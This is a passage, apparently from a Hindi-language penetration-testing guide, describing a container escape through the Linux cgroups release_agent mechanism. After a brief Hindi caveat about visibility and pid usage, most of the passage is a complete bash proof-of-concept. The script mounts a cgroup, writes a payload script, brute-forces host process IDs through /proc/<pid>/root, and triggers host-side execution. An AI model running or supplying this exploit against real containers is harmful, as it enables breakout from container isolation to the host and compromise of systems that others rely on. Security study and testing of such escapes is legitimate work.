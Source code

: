 इस तकनीक के साथ एकमात्र सावधानी यह है कि यह किसी भी तरीके से छिपा हुआ नहीं है, और pid गिनती को बहुत ऊँचा कर सकता है। क्योंकि कोई लंबे समय तक चलने वाली प्रक्रियाएं चलाई नहीं जाती हैं, इसलिए यह संभावित रूप से सुरक्षितता समस्याओं का कारण नहीं बनेगा, लेकिन इस पर मुझे न लिखें।

नीचे दिए गए PoC में इन तकनीकों का अमल किया गया है ताकि cgroups `release_agent` की कार्यक्षमता का उपयोग करके एक अधिक सामान्य हमला प्रदान किया जा सके:
```bash
#!/bin/sh

OUTPUT_DIR="/"
MAX_PID=65535
CGROUP_NAME="xyx"
CGROUP_MOUNT="/tmp/cgrp"
PAYLOAD_NAME="${CGROUP_NAME}_payload.sh"
PAYLOAD_PATH="${OUTPUT_DIR}/${PAYLOAD_NAME}"
OUTPUT_NAME="${CGROUP_NAME}_payload.out"
OUTPUT_PATH="${OUTPUT_DIR}/${OUTPUT_NAME}"

# Run a process for which we can search for (not needed in reality, but nice to have)
sleep 10000 &

# Prepare the payload script to execute on the host
cat > ${PAYLOAD_PATH} << __EOF__
#!/bin/sh

OUTPATH=\$(dirname \$0)/${OUTPUT_NAME}

# Commands to run on the host<
ps -eaf > \${OUTPATH} 2>&1
__EOF__

# Make the payload script executable
chmod a+x ${PAYLOAD_PATH}

# Set up the cgroup mount using the memory resource cgroup controller
mkdir ${CGROUP_MOUNT}
mount -t cgroup -o memory cgroup ${CGROUP_MOUNT}
mkdir ${CGROUP_MOUNT}/${CGROUP_NAME}
echo 1 > ${CGROUP_MOUNT}/${CGROUP_NAME}/notify_on_release

# Brute force the host pid until the output path is created, or we run out of guesses
TPID=1
while [ ! -f ${OUTPUT_PATH} ]
do
if [ $((${TPID} % 100)) -eq 0 ]
then
echo "Checking pid ${TPID}"
if [ ${TPID} -gt ${MAX_PID} ]
then
echo "Exiting at ${MAX_PID} :-("
exit 1
fi
fi
# Set the release_agent path to the guessed pid
echo "/proc/${TPID}/root${PAYLOAD_PATH}" > ${CGROUP_MOUNT}/release_agent
# Trigger execution of the release_agent
sh -c "echo \$\$ > ${CGROUP_MOUNT}/${CGROUP_NAME}/cgroup.procs"
TPID=$((${TPID} + 1))
done

# Wait for and cat the output
sleep 1
echo "Done! Output:"
cat ${OUTPUT_PATH}
```